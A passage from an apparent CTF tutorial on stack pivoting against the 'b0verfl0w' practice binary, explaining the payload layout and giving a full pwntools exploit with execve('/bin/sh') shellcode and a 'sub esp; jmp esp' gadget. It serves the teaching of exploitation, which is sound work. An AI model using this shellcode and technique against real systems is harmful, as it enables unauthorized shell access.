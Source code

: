 

Then the last part of our payload changes how to set esp, you can know


- size(shellcode+padding)=0x20

- size(fake ebp)=0x4

- size(0x08048504)=0x4



So the last step we need to execute is


```asm
sub esp,0x28

jmp esp

```



So the last exp is as follows


```python

from pwn import *

sh = process('./b0verfl0w')



shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"

shellcode_x86 += "\x0b\xcd\x80"



sub_esp_jmp = asm('sub esp, 0x28;jmp esp')

jmp_esp = 0x08048504

payload = shellcode_x86 + (

    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp

sh.sendline(payload)

sh.interactive()

```



#### Example 2 - Transfer heap
